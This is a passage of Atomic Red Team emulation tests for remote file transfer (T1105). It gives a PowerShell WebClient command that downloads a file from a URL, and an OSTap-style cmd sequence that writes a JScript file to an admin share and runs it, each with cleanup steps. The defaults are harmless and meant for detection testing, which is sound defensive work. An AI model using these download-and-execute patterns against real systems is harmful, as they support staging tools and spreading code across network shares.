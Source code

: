 **auto_generated_guid:** 42dc4460-9aa6-45d3-b1a6-3955d34e1fe8

#### Inputs:

| Name             | Description              | Type | Default Value                                                                    |
| ---------------- | ------------------------ | ---- | -------------------------------------------------------------------------------- |
| remote_file      | URL of file to copy      | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| destination_path | Destination path to file | path | $env:TEMP&#92;Atomic-license.txt                                                 |

#### Attack Commands: Run with `powershell`!

```powershell
(New-Object System.Net.WebClient).DownloadFile("#{remote_file}", "#{destination_path}")
```

#### Cleanup Commands:

```powershell
Remove-Item #{destination_path} -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #11 - OSTAP Worming Activity

OSTap copies itself in a specfic way to shares and secondary drives. This emulates the activity.

**Supported Platforms:** Windows

**auto_generated_guid:** 2ca61766-b456-4fcf-a35a-1233685e1cad

#### Inputs:

| Name             | Description                                                  | Type   | Default Value              |
| ---------------- | ------------------------------------------------------------ | ------ | -------------------------- |
| destination_path | Path to create remote file at. Default is local admin share. | string | &#92;&#92;localhost&#92;C$ |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
pushd #{destination_path}
echo var fileObject = WScript.createobject("Scripting.FileSystemObject");var newfile = fileObject.CreateTextFile("AtomicTestFileT1105.js", true);newfile.WriteLine("This is an atomic red team test file for T1105. It simulates how OSTap worms accross network shares and drives.");newfile.Close(); > AtomicTestT1105.js
CScript.exe AtomicTestT1105.js //E:JScript
del AtomicTestT1105.js /Q >nul 2>&1
del AtomicTestFileT1105.js /Q >nul 2>&1
popd
```

<br/>
<br/>
